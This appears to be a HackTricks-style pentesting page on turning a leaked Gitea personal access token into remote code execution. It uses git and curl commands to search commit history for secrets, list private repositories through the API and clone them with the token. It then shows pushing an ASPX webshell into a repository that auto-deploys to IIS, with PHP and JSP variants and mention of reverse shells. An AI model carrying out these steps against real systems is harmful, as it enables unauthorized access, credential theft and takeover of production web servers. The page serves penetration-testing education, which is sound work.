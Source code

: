 # Abusing leaked PATs and CI/CD auto-deploy (repo write ➜ webroot RCE)

{{#include ../../banners/hacktricks-training.md}}

## Overview

- In Gitea, Personal Access Tokens (PATs) grant the same permissions as the user account. If a repository with write permissions is auto-deployed to a production web server, write access becomes arbitrary file write on the webroot, often leading directly to remote code execution (RCE).
- Typical pattern: attacker finds a leaked PAT in commit history or other source, authenticates to the Gitea API, enumerates private repositories, clones a repo that is auto-deployed, then commits a server-executable payload (for example, .aspx on IIS) to get RCE.

## Identify leaked tokens and interesting repos

- Check public repos and commit history for removed/semi-removed secrets:
  - Gitea UI: Explore ➜ Repositories, then browse commits/diffs for tokens, API keys, or code referencing env vars.
  - Git history locally: grep diffs/commits for keywords like token, secret, password.

```bash
git log -p | grep -niE 'token|secret|password|apikey|bearer'
# Inspect suspicious commit(s)
git show <commit>
```

- Authenticate to Gitea API with a leaked PAT to enumerate repos and contents:

```bash
PAT=REDACTED
BASE=http://<gitea_host>:3000

# Note: Both of these auth headers typically work in Gitea
curl -s "$BASE/api/v1/user" -H "Authorization: token $PAT" | jq .
curl -s "$BASE/api/v1/user" -H "Authorization: Bearer $PAT" | jq .

# List repos owned by the authenticated user or visible via org membership
curl -s "$BASE/api/v1/user/repos" -H "Authorization: Bearer $PAT" | jq -r '.[].full_name'

# List repo contents
OWNER=org_or_user
REPO=repo_name
curl -s "$BASE/api/v1/repos/$OWNER/$REPO/contents" -H "Authorization: Bearer $PAT" | jq -r '.[].name'

# Fetch and decode a file (API returns base64 for content)
curl -s "$BASE/api/v1/repos/$OWNER/$REPO/contents/README.md" \
  -H "Authorization: Bearer $PAT" | jq -r .content | base64 -d

# (Optional) Enumerate webhooks to spot auto-deploy integrations (requires appropriate repo perms)
curl -s "$BASE/api/v1/repos/$OWNER/$REPO/hooks" -H "Authorization: Bearer $PAT" | jq .
```

- Indicators of auto-deploy:
  - README/Docs mention changes are automatically deployed to a web server.
  - Presence of Gitea Actions workflows under .gitea/workflows/.
  - Webhooks/CI integration to a deployment service.

## Clone/push with a PAT

Avoid placing tokens in URLs when possible. Prefer setting an HTTP auth header for git:

```bash
PAT=REDACTED
BASE=http://<gitea_host>:3000
OWNER=org_or_user
REPO=repo_name

# Clone using an Authorization header (safer than token-in-URL)
git -c http.extraHeader="Authorization: Bearer $PAT" clone \
  "$BASE/$OWNER/$REPO.git"

cd "$REPO"
# Normal git operations (add/commit/push) will reuse the header for this remote
```

Alternatively, if needed, basic token-in-URL works but is noisy and may leak in logs/history:

```bash
git clone "http://$PAT@<gitea_host>:3000/$OWNER/$REPO.git"
```

## Weaponize auto-deploy ➜ IIS RCE via ASPX webshell

If the target is Windows IIS (ASP.NET), pushing an .aspx file typically lands under the served webroot after CI/CD completes.

```bash
# Example: copy in an ASPX webshell (choose your preferred one)
cp /path/to/webshell-LT.aspx shell.aspx

# Commit and push
git add shell.aspx
git commit -m "update"
# If git prompts to set identity, configure user.name and user.email, then commit again
git push
```

After the pipeline/webhook deploys, browse to the new file on the site, for example:

```
http://<target_site>/shell.aspx
```

From there you can execute commands (e.g., ?cmd=whoami) or trigger a reverse shell.

Notes and variations:
- If the production stack is different, adapt the payload:
  - Apache/PHP: drop a .php webshell
  - Tomcat/Java: drop a .jsp webshell
  - Node/other stacks: drop/modify code files that execute on request
- Branch protections or selective deploy rules may apply; push to the branch that the deploy system watches, or abuse the pipeline definition itself (see PPE techniques).

## Common pitfalls and tips

- PAT scopes: Gitea PATs currently behave like full-account tokens. If the user can push to the repo, the PAT can too.
- Headers: Gitea commonly accepts both Authorization: token <PAT> and Authorization: Bearer <PAT> for API calls.
- Secrets hygiene: Do not print tokens in your terminal history; prefer headers over token-in-URL for git.
- Discovery: Even if a token was later “removed” in a commit, it may remain in history. Always inspect diffs and prior commits.

## End-to-end example flow

1) Find leaked PAT in commit history or public code.
2) Use the PAT to enumerate repos and find one with CI/CD auto-deploy to production.
3) Clone repo with PAT and push a server-executable payload (e.g., .aspx) to the monitored branch.
4) Wait for deploy and access the payload on the production web server.
5) Use the webshell to gather creds or launch a reverse shell for interactive RCE.

## References

- 0xdf: HTB Lock – Gitea token leak to IIS RCE, mRemoteNG pivot, PDF24 repair → SYSTEM: https://0xdf.gitlab.io/2025/08/21/htb-lock.html
- Gitea API Swagger: https://try.gitea.io/api/swagger
- ASPX webshell reference (example collection): https://github.com/grov/webshell

{{#include ../../banners/hacktricks-training.md}}